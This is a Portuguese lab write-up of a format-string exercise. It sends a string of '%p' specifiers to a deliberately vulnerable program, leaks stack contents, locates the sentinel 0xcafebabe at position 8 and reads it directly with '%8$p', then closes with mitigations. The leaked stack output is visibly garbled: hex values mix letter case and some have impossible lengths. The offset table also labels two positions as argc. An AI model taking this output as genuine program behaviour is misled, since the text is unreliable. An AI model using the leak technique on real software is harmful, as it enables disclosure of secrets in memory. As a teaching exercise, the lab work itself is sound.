

# Exercício 8: Localizar um Valor na Stack

## Objetivo
Usar uma sequência longa de especificadores `%p` para explorar a stack e localizar a variável `secret` com valor `0xcafebabe`, usando o endereço impresso pelo programa como referência.

## Metodologia

### Comando Executado
```bash
./fmtvuln "$(python3 -c "print('%p ' * 30, end='')")"
```

Este comando gera 30 especificadores `%p` consecutivos para explorar a stack.

## Exercício 1: Execução e Resultados

### Screenshot


### Output Completo
```
[*] Address of secret on stack: 0x7fff4b859a40
[*] Processing input...
0x1 0x1 0x7bDC5bD114907 0x7bC5bD21ca70 0x7bC5bD17d480 (nil) 0x7fff4b859b00f 0xcafebabe 0x808be03a9423b400 0x7f7ff4b859a70 0x56b08af822a5 0x7f7ff4b859a88 0x200000000 0x2 0x7b49ee229d90 (nil) 0x8362776e4a90a51f1 0x7fffb4b859b88 0x56b8baf822 0x7d0 0x56b08af822a5 0x7f7ff4b859a88 0x7fffb4b859b88 0x56b08af822 0x56b8baf8 0x7b4900000000 (nil) (nil)
[*] Normal programme termination.
```

### Exercício 2: Análise Detalhada

**Endereço de `secret` impresso pelo programa: `0x7fff4b859a40`**

### Análise da Stack (Posições com `%p`)

Dezodificando o output:
```
0x1 
0x1 
0x7bDC5bD114907 
0x7bC5bD21ca70 
0x7bC5bD17d480 
(nil) 
0x7fff4b859b00f 
0xcafebabe                    ← VALOR SENTINELA ENCONTRADO!
0x808be03a9423b400 
0x7f7ff4b859a70 
...
```

| Posição | Especificador | Valor | Observações |
|---------|---------------|-------|------------|
| 1 | `%1$p` | `0x1` | Valor de argc |
| 2 | `%2$p` | `0x1` | Valor de argc |
| 3 | `%3$p` | `0x7bDC5bD114907` | Endereço de biblioteca |
| 4 | `%4$p` | `0x7bC5bD21ca70` | Endereço de biblioteca |
| 5 | `%5$p` | `0x7bC5bD17d480` | Endereço de biblioteca |
| 6 | `%6$p` | `(nil)` | Valor nulo |
| 7 | `%7$p` | `0x7fff4b859b00f` | Endereço de stack (provavelmente RBP?) |
| **8** | **`%8$p`** | **`0xcafebabe`** | **✅ VALOR SENTINELA - POSIÇÃO: 8ª** |
| 9 | `%9$p` | `0x808be03a9423b400` | Dados de stack |
| 10 | `%10$p` | `0x7f7ff4b859a70` | Endereço de stack |

### Conclusões

1. **Endereço de `secret`**: `0x7fff4b859a40`
2. **Valor sentinela `0xcafebabe`**: Aparece na **8ª posição** da sequência de `%p`
3. **Significado**: Com um único especificador `%8$p`, conseguimos ler diretamente o valor da variável `secret` sem conhecer seu endereço exato

## Conclusão

**A variável `secret` com valor `0xcafebabe` está localizada na 8ª posição da stack.**

Isto significa que podemos aceder diretamente ao valor usando:
```bash
./fmtvuln "%8\$p"
```

Que teria como resultado:
```
[*] Address of secret on stack: 0x7ffcb0aea040
[*] Processing input...
0xcafebabe
```

## Implicações de Segurança

Esta exploração demonstra:
1. **Format String Vulnerability** permite ler valores arbitrários da stack
2. O atacante pode localizar valores sensíveis sem conhecer seus endereços exatos
3. Uma sequência de especificadores permite mapear e encontrar dados interessantes
4. O valor foi encontrado na 8ª posição, que é consistente na execução

## Exercício 3: Riscos das Vulnerabilidades de String de Formato

### Explicação
Este exercício demonstra os riscos associados às vulnerabilidades de string de formato, que permitem a um atacante explorar a memória do processo. Especificamente, um atacante pode:

1. **Recuperar informações sensíveis:**
   - Endereços de memória.
   - Dados armazenados na stack, heap ou outras regiões do espaço de endereçamento do processo.
   - Variáveis privadas, como senhas ou chaves secretas.

2. **Zona do espaço de endereçamento:**
   - A exploração ocorre principalmente na **stack**, onde os valores das variáveis locais e os endereços de retorno são armazenados.
   - Dependendo da implementação, também é possível acessar dados da **heap** ou até mesmo da **área de código**.

### Conclusão
As vulnerabilidades de string de formato representam um risco significativo, pois permitem que um atacante leia (ou até sobrescreva) dados críticos do processo, comprometendo a segurança do sistema.

## Mitigações

- Não usar entrada de utilizador diretamente como string de formato
- Validar e sanitizar todas as entradas
- Usar especificadores de formato fixos (ex: `printf("%s\n", input)` em lugar de `printf(input)`)


